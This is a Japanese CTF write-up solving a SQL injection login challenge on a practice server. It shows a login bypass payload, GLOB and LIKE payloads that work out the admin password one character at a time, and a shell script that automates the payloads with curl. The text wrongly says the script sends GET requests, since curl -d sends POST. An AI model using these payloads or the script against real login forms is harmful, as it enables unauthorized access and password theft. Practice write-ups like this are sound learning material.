 # 自分の解答
## 1
DB問お決まりの

```
id:admin
pass:' OR 1=1
```
をするとソースが見れる。FLAGはadminのパスワードだよと言われる。つまり`FLAG_〜`という形式のパスワードであることは分かる。

## 2
```
id:admin
pass:' OR pass GLOB 'FLAG_*0*'--
```
とかしてひたすら使われてる文字探す。`*`は任意の0文字以上の文字列。【[参考](http://www.dbonline.jp/sqlite/select/index12.html)】上記はFLAGに`0`が含まれていたら認証が通る。  
`GLOB`句は大文字小文字を区別するので、まずは`LIKE`句（大文字小文字を区別しない）で見当をつけたほうが良いかもしれない。  
てかブラウザ面倒くさすぎてこの辺から

```sh
curl -d "id=admin&pass=' OR pass LIKE 'FLAG\_%0%' ESCAPE '\'--" ctfq.sweetduet.info:10080/~q6/
```
とか使い始めた。ちなみに`LIKE`句だと`*`の代わりに`%`を使う。そして`_`が任意の一文字を表すので`ESCAPE '\'`として`\`をエスケープ記号に割り当てて`_`をエスケープしてる。（実際エスケープする必要無いけど…）【[参考](http://www.dbonline.jp/sqlite/select/index6.html)】

使われてる文字が分かる。

## 3
```
id:admin
pass:' OR pass GLOB 'FLAG_??????'
```
とかして文字数を調べる。`GLOB`句において`?`は任意の一文字を表す。  
文字数が分かる。そして、重複を含むかどうかもわかる。

## 4
```
id:admin
pass:' OR pass GLOB 'FLAG_3*'
pass:' OR pass GLOB 'FLAG_???3*'
```
とかひたすらして答えを調べる。  
`N(0~15)`番目に`c(文字)`が来るかどうかを調べるシェルスクリプト。

```sh
#!/bin/sh

function check() {
pass="FLAG_"
for i in `seq 0 $1`
do
	if [ $i -ne 0 ];then
		pass+="?";
	fi
done
pass+=$2
num=`expr 15 - $1`
for i in `seq 0 $num`
do
	if [ $i -ne 0 ];then
		pass+="?";
	fi
done
curl -d "id=admin&pass=' OR pass GLOB '$pass'--" ctfq.sweetduet.info:10080/~q6/
}

RESULT=`check $@`
echo "$RESULT"
```
`check.sh`とかファイル名で保存して、例えば`./check.sh 2 A`ってやると、`pass`を`' OR pass GLOB 'FLAG_??A?????????????'--`に設定して「送信」ボタン押した時と同じようにGETリクエストを投げる。レスポンスは当然ブラウザと同じ。  
つまり`pass`が`FLAG_??A?????????????`の条件に合ってるか簡単に調べられる。  
`chmod +x check.sh`で実行権限付与するのを忘れないこと。
